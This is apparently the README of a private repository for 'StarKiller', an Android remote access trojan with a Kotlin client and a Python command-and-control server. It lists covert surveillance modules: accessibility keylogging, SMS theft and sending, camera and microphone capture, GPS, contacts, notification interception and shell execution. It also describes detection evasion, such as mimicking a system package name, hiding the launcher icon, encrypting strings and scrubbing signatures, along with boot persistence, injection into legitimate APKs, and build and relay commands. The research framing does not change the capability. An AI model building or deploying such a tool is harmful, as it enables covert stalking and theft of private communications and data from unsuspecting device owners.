

# STARKILLER

```
 ███████╗████████╗ █████╗ ██████╗ ██╗  ██╗██╗██╗     ██╗     ███████╗██████╗
 ██╔════╝╚══██╔══╝██╔══██╗██╔══██╗██║ ██╔╝██║██║     ██║     ██╔════╝██╔══██╗
 ███████╗   ██║   ███████║██████╔╝█████╔╝ ██║██║     ██║     █████╗  ██████╔╝
 ╚════██║   ██║   ██╔══██║██╔══██╗██╔═██╗ ██║██║     ██║     ██╔══╝  ██╔══██╗
 ███████║   ██║   ██║  ██║██║  ██║██║  ██╗██║███████╗███████╗███████╗██║  ██║
 ╚══════╝   ╚═╝   ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
```

**22DIV // george wu // Android Remote Access**

> *"The dark side is a pathway to many abilities some consider to be... unnatural."*

---

### Classification

```
CLASSIFICATION:  UNCLASSIFIED // ACADEMIC USE ONLY
OPERATOR:        VADER (george wu / 22DIV)
AUTHORISATION:   CSEC academic research, own devices
DOCTRINE:        Israeli cyber methodology — cross-platform capability
                 Windows + Android. Desktop + mobile. Full-spectrum.
TARGET:          Own Android devices ONLY
STATUS:          PHASE 2 COMPLETE — FUD hardened, GUI C2 operational
COMMIT:          6c3f78d (2026-06-23)
```

### What This Is

Android RAT built from first principles. Kotlin client, Python C2 server with desktop GUI + Discord relay.
Speaks VADER agent protocol (length-prefixed JSON over TCP). Includes obfuscation pipeline,
APK binder, detection scanner, and automated test suite.

Own hardware only. CSEC security research. Private repo.

### Architecture

```
StarKiller/
├── server/
│   ├── starkiller_c2.py        C2 server — web dashboard + agent listener
│   ├── starkiller_gui.py       Desktop GUI C2 — tkinter, Discord relay
│   └── test_client.py          Simulated Android agent for testing
├── client/                     Android Kotlin project (com.android.internal.svc)
│   ├── app/
│   │   ├── src/main/
│   │   │   ├── kotlin/com/android/internal/svc/
│   │   │   │   ├── MainActivity.kt          Launcher (starts service, hides icon)
│   │   │   │   ├── SyncService.kt           Foreground service + C2 lifecycle
│   │   │   │   ├── SyncAdapter.kt           VADER protocol (encrypted strings)
│   │   │   │   ├── Dispatcher.kt            Task dispatch to modules (modA-modJ)
│   │   │   │   ├── Config.kt                Encrypted C2 config (build-time injected)
│   │   │   │   ├── Crypt.kt                 Runtime XOR+Base64 string decryption
│   │   │   │   ├── GrantActivity.kt         MediaProjection permission grant
│   │   │   │   ├── persistence/
│   │   │   │   │   └── StartReceiver.kt     BOOT_COMPLETED auto-start
│   │   │   │   └── modules/
│   │   │   │       ├── SysInfo.kt           IMEI, model, carrier, Android ID
│   │   │   │       ├── PhotoHelper.kt       Camera2 API — front/rear JPEG
│   │   │   │       ├── MsgReader.kt         SMS read inbox + send
│   │   │   │       ├── LocProvider.kt       GPS/network location
│   │   │   │       ├── AddrBook.kt          Full contact list export
│   │   │   │       ├── StorageHelper.kt     Directory list + file download
│   │   │   │       ├── AudioHelper.kt       Ambient audio (configurable duration)
│   │   │   │       ├── DisplayHelper.kt     Screenshot + VNC stream (MediaProjection)
│   │   │   │       ├── InputService.kt      Accessibility Service keylogger
│   │   │   │       ├── HistoryReader.kt     Call history dump
│   │   │   │       ├── PkgScanner.kt        Installed packages
│   │   │   │       └── AlertService.kt      Notification interception
│   │   │   ├── res/
│   │   │   │   ├── values/strings.xml
│   │   │   │   └── xml/accessibility_config.xml
│   │   │   └── AndroidManifest.xml
│   │   ├── build.gradle.kts                 SDK 34, Kotlin 1.9.24, R8 on debug+release
│   │   └── proguard-rules.pro               Hardened (5-pass, repackage, strip all)
│   ├── build.gradle.kts                     AGP 8.5.0
│   ├── settings.gradle.kts
│   └── gradle.properties
├── tools/                      Downloaded RE tools (gitignored)
│   ├── apktool.jar             APK decompile/recompile (v3.0.2)
│   ├── jadx/                   DEX decompiler for verification
│   └── uber-apk-signer.jar    APK signing (v1.3.0)
├── payloads/                   Built APKs + backups (gitignored)
├── setup.py                    Automated Android SDK + Gradle setup
├── build.py                    Build APK with encrypted C2 config
├── obfuscate.py                String encryption + ProGuard + DEX scanner
├── binder.py                   APK injection (decompile + inject + patch + sign)
├── test_headless.py            38-test automated integration suite
├── STARKILLER_MANUAL.md        Full technical manual
├── CODE_WALKTHROUGH.md         Annotated code walkthrough
└── README.md
```

### Protocol

VADER agent protocol — length-prefixed JSON over TCP:

```
Wire format: [4-byte big-endian length][UTF-8 JSON payload]

Agent -> C2:
  register   — agent_id, hostname, os, platform, model, sdk
  heartbeat  — battery, last_gps
  result     — task_id, data (JSON object with op results)
  file_data  — task_id, filename, size, data (base64)

C2 -> Agent:
  task       — task_id, op, [op-specific params]
```

### Operations

| # | Op Code | Description |
|---|---------|-------------|
| 1 | `sysinfo` | Model, OS, carrier, Android ID, battery |
| 2 | `camera` | Front/rear photo (Camera2 API, JPEG, base64) |
| 3 | `sms_read` | Inbox dump (last 100) |
| 4 | `sms_send` | Send SMS from device |
| 5 | `gps` | GPS/network location with accuracy |
| 6 | `contacts` | Name + number + type |
| 7 | `ls` | Directory listing with metadata |
| 8 | `download` | File download (10MB cap, base64) |
| 9 | `upload` | File upload (stub — server-side path) |
| 10 | `mic` | Ambient audio (configurable seconds) |
| 11 | `screenshot` | MediaProjection screen capture |
| 12 | `screen_grant` | Launch transparent MediaProjection grant dialog |
| 13 | `vnc` | Live screen streaming (configurable interval/frames) |
| 14 | `calllog` | Incoming/outgoing/missed history |
| 15 | `apps` | Package name, label, system flag |
| 16 | `exec` | Shell command execution (sh -c) |
| 17 | `recon` | sysinfo + gps + apps combined |
| 18 | `ping` | Latency check |
| 19 | `exit` | Kill agent |

### Evasion

| Layer | Technique | Status |
|-------|-----------|--------|
| Package name | `com.android.internal.svc` — mimics Android system package | DONE |
| Class naming | All modules renamed to innocent names (SysInfo, PhotoHelper, etc.) | DONE |
| Variable naming | Dispatcher uses `modA`-`modJ` — no semantic leaks in DEX | DONE |
| String encryption | XOR+Base64 all protocol strings + C2 config | DONE |
| R8 obfuscation | Enabled on debug + release. 5-pass, flatten, repackage, strip sources | DONE |
| Config injection | C2 host/port baked at build time, encrypted in DEX | DONE |
| APK binding | Inject into legit APK (apktool decompile + Smali inject) | DONE |
| Detection scanner | Self-scan DEX string tables for known RAT signatures | DONE |
| Icon hiding | Remove launcher icon after first launch (configurable) | DONE |
| DEX verification | ZERO payload identifiers in compiled DEX string tables | VERIFIED |

### Persistence

- `RECEIVE_BOOT_COMPLETED` + `QUICKBOOT_POWERON` — start on boot
- Foreground service with `START_STICKY` — OS restarts if killed
- `WakeLock` — prevent CPU sleep during ops
- Battery optimization bypass request
- Auto-reconnect with exponential backoff (5s -> 5min cap)

### Quick Start

```bash
# 1. Setup (one-time) — downloads Android SDK, sets up Gradle
python setup.py

# 2. Build APK with your C2 IP
python build.py --ip 192.168.1.92 --port 8667

# 3. Start GUI C2
python server/starkiller_gui.py

# 4. Test locally (no phone needed)
python server/test_client.py --ip 127.0.0.1

# 5. Run automated test suite
python test_headless.py

# 6. Bind into legit APK (optional)
python binder.py target.apk --payload-smali path/to/smali/

# 7. Scan for detection signatures
python obfuscate.py scan payloads/starkiller-debug.apk

# 8. Start with Discord relay (internet access)
python server/starkiller_gui.py --discord-token BOT_TOKEN --channel-id CHANNEL_ID
```

### GUI C2 Controller



Desktop tkinter application with:
- Agent sidebar with live device list
- Device info panel (model, OS, SDK, battery)
- 15 operation buttons + FULL RECON + VNC STREAM
- Live console with color-coded output
- Command bar for direct task dispatch
- Discord relay for internet C2 (bypasses NAT)
- Live screen panel (360x640) for VNC streaming

### Test Results (2026-06-23)

```
Headless integration suite: 38/38 PASS
  Phase 1:  Listener bind
  Phase 2:  Agent registration (6 fields)
  Phase 3:  Multi-agent (3 concurrent)
  Phase 4:  Operation dispatch (13 ops)
  Phase 5:  Heartbeat
  Phase 6:  File transfer
  Phase 7:  Disconnect handling
  Phase 8:  Edge cases (invalid reg, immediate disconnect, oversized msg)
  Phase 9:  Obfuscation scan (standalone + bound APK)
  Phase 10: Crypto roundtrip (10 strings)

Live device test (Samsung SM-X400, Android 16 — 2026-06-23):
  TCP handshake:   PASS
  Registration:    PASS (manufacturer, model, android_version confirmed)
  sysinfo:         PASS
  apps (294):      PASS
  ping:            PASS (<1s)
  gps/sms/contacts/calllog: PERMISSION DENIED (runtime grants not yet given)
  screenshot/vnc:  UNTESTED (runtime permission flow rebuilt — not yet verified on device)
  camera/mic:      UNTESTED

NOTE: Runtime permission request flow (requestPermissions + MediaProjection on launch)
rebuilt in commit 3e8354d. NOT YET live-tested on device. Headless tests pass.

DEX string scan:
  Standalone APK: 0 payload identifiers in 15,908 strings
  Bound APK:      0 payload identifiers in 268,229 strings
  APK size (latest): 1371 KB (runtime perm code added)
```

### Tools Required

| Tool | Version | Source |
|------|---------|--------|
| Java JDK | 17+ | Microsoft OpenJDK / Adoptium |
| Python | 3.10+ | System |
| Android SDK | cmdline-tools | setup.py downloads automatically |
| apktool | 3.0.2 | github.com/iBotPeaches/Apktool |
| uber-apk-signer | 1.3.0 | github.com/patrickfav/uber-apk-signer |
| tkinter | stdlib | Included with Python |
| Pillow | latest | pip install Pillow (for VNC/screenshots) |
| ADB | 37+ | Optional — for direct install |

### Research Sources

Built after studying:
- G700 RAT (CraxsRAT evolution) — C# server, Java APK, APKEditor obfuscation, Telegram exfil
- EagleSpy v5 — anti-VM/debug, Accessibility abuse, 2FA theft, black screen overlay
- L3MON — Node.js + Socket.io, web dashboard, Docker, Smali injection
- Cerberus (leaked source) — fork ecosystem, overlay attacks, obfuscation patterns

### Rules of Engagement

1. Own devices only
2. Private repo — never public
3. CSEC academic research context
4. No distribution of built APKs
5. Binaries never committed to repo
6. All protocol strings encrypted
7. No plaintext C2 config in source control

---

*Built from VADER's protocol. The agent doesn't care what OS it runs on.*
